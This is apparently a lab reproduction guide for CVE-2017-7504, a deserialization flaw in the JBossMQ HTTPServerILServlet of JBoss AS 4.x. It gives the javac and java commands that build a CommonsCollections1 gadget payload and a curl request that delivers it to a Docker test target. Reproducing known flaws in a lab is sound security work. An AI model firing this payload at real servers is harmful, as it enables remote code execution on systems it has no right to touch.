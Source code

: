 # JBoss 4.x JBossMQ JMS Deserialization Vulnerability (CVE-2017-7504)

Red Hat JBoss Application Server is a JavaEE-based open source application server. In JBoss AS 4.x and earlier, the JServer over HTTP Invocation Layer's HTTPServerILServlet.java file in the JBossMQ implementation process has a deserialization vulnerability that can be exploited by a remote attacker to create arbitrary code using specially crafted serialized data.

reference:

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## vulnerability environment

Run the following command to start JBoss AS 4.0.5:

```
Docker-compose up -d
```

After the environment is started, the target is `http://your-ip:8080`.

## Vulnerability recurrence

Using the tool [JavaDeserH2HC] (https://github.com/joaomatosf/JavaDeserH2HC), we select a Gadget:`ExampleCommonsCollections1WithHashMap` to compile and generate serialized data:

```
Javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
Java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "touch /tmp/success"
```

Visible, the command we executed is `touch /tmp/success`. After the execution is completed, a file `ExampleCommonsCollections1WithHashMap.ser` will be generated, and the file will be sent as the body as follows:

```
Curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

![](1.png)

Execute `docker-compose exec jboss bash` to enter the container, visible `/tmp/success` has been successfully created.